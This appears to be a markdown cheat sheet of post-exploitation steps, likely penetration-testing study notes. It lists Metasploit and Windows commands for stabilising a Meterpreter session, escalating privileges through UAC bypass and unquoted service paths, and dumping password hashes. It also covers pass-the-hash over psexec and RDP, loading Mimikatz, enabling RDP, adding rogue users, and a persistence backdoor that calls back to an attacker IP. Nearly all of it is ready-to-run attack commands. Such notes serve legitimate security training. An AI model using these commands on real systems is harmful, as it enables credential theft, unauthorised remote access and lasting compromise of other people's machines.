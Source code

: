 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* `meterpreter> use incognito` - use commands from this module (e.g. _list_tokens_)

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/trusted_service_path` - module for exploiting unquoted path vulnerable instances

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid
* Replace executable
* crontab
* root squashing

# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* `migrate <PID>` - migrate to a x64 processes
* `load mimikatz`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%
